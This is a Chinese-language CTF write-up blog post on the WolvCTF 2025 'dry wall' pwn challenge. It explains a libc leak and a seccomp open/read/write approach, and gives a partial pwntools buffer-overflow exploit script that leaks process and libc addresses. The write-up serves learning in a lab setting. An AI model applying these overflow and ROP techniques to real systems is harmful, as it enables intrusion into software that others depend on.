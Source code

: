 ```yaml
---
date: 2025-03-26 10:21:56
layout: post
title: Wolvctf 2025 Writeup
subtitle: 
description: >-
    可以 mark 一下那个 shellcode 题
image: >-
  /assets/img/uploads/cherry-blossom.jpg
optimized_image: >-
  /assets/img/uploads/cherry-blossom.jpg
category: ctf
tags:
  - pwn
  - linux kernel
  - ebpf
author: rosayxy
paginate: true
---
```


周末打的简单比赛，但是 shellcode 题还是一如既往不会，这里浅浅记一下 writeup    

## dry wall
本地打完需要 leak libc 的版本才发现根本不用 leak，尴尬了     

为啥想到 leak libc 是因为大概率 `ROPgadget` 错 binary 了，导致没有找到 `pop rdi; ret` `pop rsi; ret` 的 gadget     

本地 leak 的思路是 fgets 之后，rsi 指向 stdin->lock，所以可以用 main 里面白给的 printf("%p") 把 rsi 打印出来，从而 leak libc    

但是远程貌似这样做不行 emmmm      

然后也可以用 pwntools 找设置某个寄存器的 gadget，代码如下，之后可以 mark 一下   
```py
rop = ROP("./chal")
log.info(rop.rdi)
```

哦以及是设了 seccomp 可以用 openat + read + write 打 orw    

### exp
```py
from pwn import*
context(arch='amd64',os='linux',log_level='debug')
p = process("./chal")
# p=remote("drywall.kctf-453514-codelab.kctf.cloud",1337)
p.recvuntil("What is your name, epic H4x0r?\n")
# gdb.attach(p,"b* $rebase(0x136f)")
# pause()
rop = ROP("./chal")
log.info(rop.rdi)
p.sendline("~/flag\x00")

p.recvuntil("<|;)\n")
proc_leak = int(p.recvline().strip(),16)
log.info("proc_leak: "+hex(proc_leak))
proc_base = proc_leak - 0x11a3
puts_plt = proc_base + 0x1060
# 目前遇到的问题：没有 pop rdi 的 gadget 有 proc 任意地址写
payload = b"a"*0x110+p64(proc_base + 0x7308)+p64(0x1348+proc_base)+p64(proc_leak)
p.sendline(payload)
libc_leak = int(p.recvline().strip(),16)
log.info("libc_leak: "+hex(libc_leak))
libc_base = libc_leak - 0x1bc8d0
log.info("libc_base: "+hex(libc_base))
```